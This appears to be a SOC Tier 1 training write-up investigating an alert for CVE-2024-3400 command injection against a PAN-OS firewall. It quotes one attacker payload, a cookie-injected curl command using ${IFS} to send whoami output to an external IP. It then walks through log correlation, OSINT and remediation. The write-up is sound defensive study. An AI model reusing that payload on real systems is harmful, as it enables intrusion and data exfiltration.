






# P2: SOC WORKFLOW SIMULATION | MAY 8

> This entry demonstrates a standard **SOC Tier 1 workflow** from receiving an automated alert to performing a deep dive into network logs.

## Incident Investigation: Palo Alto PAN-OS Command Injection (CVE-2024-3400)

### **Date & Time**
May 8| 2:00 PM

#### **1. Executive Summary**

At 03:09 PM, a critical alert was triggered, indicating an exploitation attempt of **CVE-2024-3400** against the firewall. The investigation confirmed a malicious payload but found no evidence of a successful (C2) callback.

**Verdict:** True Positive (Unsuccessful/Failed Execution)

**Severity:** Critical

**Status:** Closed

The image above shows a critical-severity log received at 3:09. Triage had to resume immediately to determine whether it was a false positive. We quickly took over the incident by clicking the action button, which sent the alert to my investigation channel, as shown below.

#### **2. Alert Details (Triage)**

- **Event ID:** 249
- **Timestamp:** April 18, 2024, 03:09 PM
- **Source IP:** `144.172.79.92` (Internet)
- **Destination IP:** `172.16.17.139` (Internal Firewall)
- **Rule Name:** Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation

---

During the investigation, additional alert details showed that the attacker attempted to inject code via the `SESSID` cookie. **Payload:** `curl${IFS}144.172.79.92:4444?user=$(whoami)`

- **Analysis:** The attacker used `${IFS}` to bypass space filters and execute the `whoami` command. This is an Out-of-Band (OOB) injection attempt intended to exfiltrate the system username to the attacker’s server.
- This is clearly a malicious web attack. Because the action field showed `allowed`, it suggested the payload may have been accepted, but it was unclear whether execution succeeded.

#### **3. Log Correlation**

I searched Log Management for any outbound traffic from `172.16.17.139` to the attacker’s IP `144.172.79.92`, but found no matching outbound logs.

- **Conclusion:** The firewall received the malicious request but did not execute the `curl` command, **preventing data exfiltration.**

#### **4. Threat Intelligence (OSINT)**

I cross-referenced this IP using Open Source Intelligence (OSINT), including:

- VirusTotal: 10/93 security vendors flagged the IP as malicious (Malware/Phishing).

- LetsDefend Intel: Confirmed the IP as a known bad actor.

#### **5. Response & Remediation**

- No escalation or isolation is required because the attack failed and the affected device is a perimeter firewall.

**Recommendations:** 

1. Block `144.172.79.92` at the network perimeter.
2. Verify that **PA-Firewall-01** has been updated to a patched version of PAN-OS.

#### 6. Conclusion

Imapct assessment: No data exfiltration detected, System integrity maintained.
